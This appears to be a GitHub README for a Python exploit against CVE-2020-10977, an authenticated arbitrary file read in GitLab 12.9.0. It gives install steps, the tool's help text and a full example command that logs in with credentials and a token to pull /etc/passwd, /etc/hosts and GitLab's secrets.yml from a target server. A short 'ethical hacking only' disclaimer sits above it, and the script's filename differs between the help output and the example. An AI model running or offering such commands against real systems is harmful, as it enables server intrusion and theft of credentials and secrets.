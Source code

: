 ## The warn

For demonstration purpose and ethical hacking only.

## The what

A (wanted to be) better script than what can be found on exploit-db about the authenticated arbitrary read file on GitLab v12.9.0 (CVE-2020-10977) 

## The how

1. Meet the dependency (you probably already have the rest)

`pip3 install requests python-gitlab`

2. Get an API token using your credentials

[https://docs.gitlab.com/ee/user/profile/personal_access_tokens.html](https://docs.gitlab.com/ee/user/profile/personal_access_tokens.html)

3. Profit?

```
$ python3 gitlab-12.9.0-lfi.py -h
usage: gitlab-12.9.0-lfi.py [-h] -H HOST -u USER -p PASSWD -t TOKEN -f FILES

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  The https URI to gitlab webroot
  -u USER, --user USER  The user name
  -p PASSWD, --passwd PASSWD
                        The user password
  -t TOKEN, --token TOKEN
                        The access token
  -f FILES, --files FILES
                        The absolute paths to the files on the Gitlab local system
```

```
$ python3 gitlab-12.9.0-file-read.py -H https://gitlab.domain.com/ -u erk3 -p test1234 -t 9nsDFXshb1txxkkZAv24 -f /etc/passwd -f /etc/hosts -f /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
```

